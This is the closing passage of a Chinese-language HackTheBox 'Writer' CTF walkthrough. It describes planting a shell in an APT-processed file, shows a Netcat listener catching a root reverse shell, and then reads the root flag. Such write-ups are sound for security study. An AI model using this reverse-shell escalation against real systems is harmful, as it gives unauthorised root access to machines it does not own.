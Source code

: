 所以在上面，我将一个简单的 shell 回显到名为 rev_shell 的文件中。这将由 APT 服务处理，我们只需要有一个 Netcat 侦听器等待:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.15.39] from (UNKNOWN) [10.10.11.101] 36708
#
```

随着我们的最终 shell 作为 root 连接，我们可以获取标志:

```
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<HIDDEN>
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声。这是免费的，它让我知道我正在写你感兴趣的内容。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2021 年 12 月 12 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-writer)*。*